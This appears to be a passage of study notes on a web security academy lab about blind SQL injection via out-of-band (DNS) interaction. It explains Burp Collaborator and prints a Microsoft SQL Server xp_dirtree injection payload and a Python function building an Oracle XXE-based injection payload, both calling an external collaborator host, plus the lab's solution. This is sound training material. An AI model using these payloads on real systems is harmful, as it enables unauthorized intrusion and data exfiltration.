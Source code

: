 The easiest and most reliable tool for using out-of-band techniques is Burp Collaborator. This is a server that provides custom implementations of various network services, including DNS. It allows you to detect when network interactions occur as a result of sending individual payloads to a vulnerable application. Burp Suite Professional includes a built-in client that's configured to work with Burp Collaborator right out of the box. For more information, see the documentation for Burp Collaborator.

The techniques for triggering a DNS query are specific to the type of database being used. For example, the following input on Microsoft SQL Server can be used to cause a DNS lookup on a specified domain:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

This causes the database to perform a lookup for the following domain:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

You can use Burp Collaborator to generate a unique subdomain and poll the Collaborator server to confirm when any DNS lookups occur.

```python
# Solution

# https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md#oracle-sql-out-of-band

def parse_payload(burp_collaborator_url):
    x = f"""UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://{burp_collaborator_url}/"> %remote;]>'),'/l') FROM dual"""
    payload = f"'{quote_plus(x)}--"
    return payload
print(parse_payload("o1qccbamtvzvyoh0ol4ql72zcqih67uw.oastify.com"))
```

## Lab: Blind SQL injection with out-of-band interaction

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Exploiting blind SQL injection using out-of-band (OAST) techniques - Continued

